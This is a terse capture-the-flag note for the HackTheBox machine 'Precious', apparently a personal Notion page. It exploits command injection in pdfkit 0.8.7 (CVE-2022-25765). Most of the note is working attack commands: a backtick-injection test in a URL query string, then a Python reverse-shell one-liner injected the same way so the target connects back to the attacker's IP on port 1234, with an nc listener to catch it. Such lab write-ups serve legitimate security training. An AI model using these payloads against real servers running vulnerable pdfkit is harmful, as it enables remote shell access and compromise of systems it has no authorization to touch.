 ```yaml
---
title: HTB:Precious
date: 2023-11-19 21:41:37
tags:
---
```


# Precious

Created: February 21, 2023 9:15 PM
Parent item: HackTheBox (https://www.notion.so/HackTheBox-6dbc14645a5943aab73ab7c0d22c7d74?pvs=21)
URL: 10.10.11.189

ip==10.10.11.189

tun0==10.10.14.26

pdfkit v0.8.7

[Command Injection in pdfkit | CVE-2022-25765 | Snyk](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

```php
irb(main):060:0> puts PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").command wkhtmltopdf --quiet [...] 
"http://example.com/?name=%20`sleep 5`" - => nil
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf # 5 seconds wait...
```

python -m http.server 8080

```php
"http://10.10.14.26:8080/?name=%20`sleep 5`" 
```

[PayloadsAllTheThings/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

```php
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
http://10.10.14.26:8080/?name=%20`python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.26",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
#nc -lvnp 1234 
```



![Screenshot_2023-02-21_04_38_17](../images/Screenshot_2023-02-21_04_38_17-17004013930836.png)

![Screenshot_2023-02-21_05_39_45](../images/Screenshot_2023-02-21_05_39_45-17004013963287.png)

![Screenshot_2023-02-21_07_46_40](../images/Screenshot_2023-02-21_07_46_40-17004013996568.png)

![Screenshot_2023-02-21_07_54_23](../images/Screenshot_2023-02-21_07_54_23-17004014024909.png)

![Screenshot_2023-02-21_08_02_08](../images/Screenshot_2023-02-21_08_02_08-170040140473210.png)

![Screenshot_2023-02-21_08_08_20](../images/Screenshot_2023-02-21_08_08_20-170040140747711.png)

![Screenshot_2023-02-21_08_10_34](../images/Screenshot_2023-02-21_08_10_34-170040141086712.png)
